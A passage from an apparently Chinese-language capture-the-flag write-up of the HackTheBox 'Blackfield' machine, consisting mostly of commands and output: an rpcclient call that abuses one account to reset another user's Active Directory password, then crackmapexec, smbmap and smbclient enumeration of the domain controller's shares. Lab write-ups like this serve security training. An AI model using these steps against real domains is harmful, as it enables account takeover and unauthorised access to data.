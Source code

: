 [Reset AD user password with Linux :: malicious.link — welcome (room362.com)](https://room362.com/post/2017/reset-ad-user-password-with-linux/)

```bash
└─# rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "zf1yolo!!!"'
```



验证 smb 成功

```bash
└─# crackmapexec smb 10.10.10.192 -u audit2020 -p 'zf1yolo!!!'                                                      
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:zf1yolo!!! 
```



winrm 依旧失败

```bash
crackmapexec winrm 10.10.10.192 -u audit2020 -p 'zf1yolo!!!'
```



# audit2020 用户

smb：

```bash
└─# smbmap -H 10.10.10.192 -u audit2020 -p 'zf1yolo!!!'
[+] IP: 10.10.10.192:445	Name: 10.10.10.192                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	READ ONLY	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

```bash
└─# smbclient -U audit2020 //10.10.10.192/forensic                                                                                                            1 ⨯
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

		5102079 blocks of size 4096. 1674232 blocks available
```
